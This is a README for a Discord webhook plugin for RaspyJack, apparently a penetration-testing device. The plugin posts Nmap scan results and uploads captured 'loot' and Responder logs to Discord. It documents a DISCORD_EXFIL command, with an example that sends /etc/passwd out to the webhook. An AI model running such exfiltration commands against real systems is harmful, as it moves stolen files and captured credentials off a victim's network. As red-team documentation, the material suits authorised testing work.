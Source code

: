 # Discord Notifier Plugin

Discord Webhook integration for RaspyJack. Sends completion notifications for Nmap scans, lets you manually exfiltrate individual loot files, builds and uploads a ZIP archive (loot + Responder logs), and exposes binary commands for payload automation.

## Features
- Automatic notification on `scan.after` including:
  - Scan label
  - Interface used and inferred target network
  - Attached result file (if it exists and is non‑empty)
- Manual single file upload from `loot/` via menu
- Build and upload ZIP archive containing:
  - `loot/`
  - `Responder/logs/`
- Exposed bin commands:
  - `DISCORD_MESSAGE` to send messages (plain or minimal embed)
  - `DISCORD_EXFIL` to send arbitrary files
- Legacy webhook migration from `discord_webhook.txt` to persisted plugin config
- Emits internal events for integration/observability

## Installation / Activation
1. Create a Discord Webhook (Channel Settings > Integrations > Webhooks).
2. Copy the webhook URL.
3. Set it via the plugin configuration UI (`webhook_url`) or create legacy file `/root/Raspyjack/discord_webhook.txt` (single line with the URL) and restart.
4. Ensure `nmap_notifications` is enabled if you want automatic scan notifications.

## Configuration Schema
```jsonc
{
  "webhook_url": {
    "type": "string",
    "label": "Discord Webhook URL",
    "description": "Discord webhook URL for sending notifications",
    "default": "",
    "sensitive": true
  },
  "nmap_notifications": {
    "type": "boolean",
    "label": "Nmap Notifications",
    "description": "Send Discord notifications when Nmap scans complete",
    "default": true
  }
}
```

## Emitted Events
These events are published on the event bus (wildcards supported):

| Event | When | Key Fields |
|-------|------|-----------|
| `discord.message.sent` | Any message/file/scan dispatched successfully | `type`, `file`, `size`, `label`, `interface`, `target_network`, `timestamp` (context dependent) |
| `discord.message.failed` | A send failed (HTTP error, size limit, empty file) | `type`, `file`, `size`, `reason`, `limit`, `timestamp` |
| `discord.webhook.configured` | Valid webhook configured (on load or migration) | `url`, `source`, `persisted` |
| `discord.webhook.updated` | Webhook changed through config update | `url`, `updated` |

### Types (field `type`)
- `scan_notification`
- `loot_file`
- `loot_archive`

### Common `discord.message.failed` reasons
- `size_limit`: file/ZIP exceeds `DISCORD_ATTACHMENT_LIMIT` (8 MiB default)
- `http_error`: non‑2xx Discord response
- `file_missing` / `empty_file`

## Bin Commands
### DISCORD_MESSAGE
Send a simple message or embed (optional title & color):
```bash
DISCORD_MESSAGE "Service started"
DISCORD_MESSAGE "Scan completed" --title "Nmap" --color 00ff00
DISCORD_MESSAGE "Critical error" --title "Failure" --color ff0000
```
Color: hex without `#`.

### DISCORD_EXFIL
Send arbitrary file:
```bash
DISCORD_EXFIL /root/Raspyjack/loot/Nmap/result.txt
DISCORD_EXFIL /etc/passwd "System file" "Exfil example"
```

## Scan Notification Flow
1. Core fires `scan.after` with `label` and `result_path`.
2. Plugin validates config (`nmap_notifications`, webhook, file existence).
3. Attempts to infer interface + target network (fallback: `eth0`, `unknown`).
4. Spawns a thread to build embed and call `discord_utils.send_embed_to_discord`.
5. Emits `discord.message.sent` or `discord.message.failed` with metadata.

## Size Limits
- `DISCORD_ATTACHMENT_LIMIT` = 8 MiB (standard non‑Nitro webhook).
- ZIP above this aborts and emits `discord.message.failed` with `reason=size_limit`.

## Best Practices & Security
- Never commit webhook URLs to public repos.
- Revoke webhook immediately if you suspect leakage (Discord > Channel Settings > Integrations).
- Avoid sending sensitive data unencrypted.
- Monitor `discord.message.failed` for degradation or rate limiting.

## Observability / Integration
Subscribe to all plugin events with wildcard:
```python
plugin_manager.subscribe_event('discord.*', lambda evt, data: print(evt, data))
```
Useful for building metrics dashboards or centralized logging.

## Troubleshooting
| Symptom | Probable Cause | Action |
|---------|----------------|--------|
| "No webhook configured" | Empty/invalid `webhook_url` | Provide full URL starting with `https://discord.com/api/webhooks/` |
| `discord.message.failed` with `size_limit` | File > 8 MiB | Reduce / split / further compress |
| HTTP 400/404 | Deleted webhook or truncated URL | Create new webhook and update config |
| Timeout | No outbound network / firewall | Test with simple curl to `discord.com` |

---
Primary log prefix: `[DiscordNotifier]`
Utilities module: `plugins.discord_notifier_plugin.helpers.discord_utils`

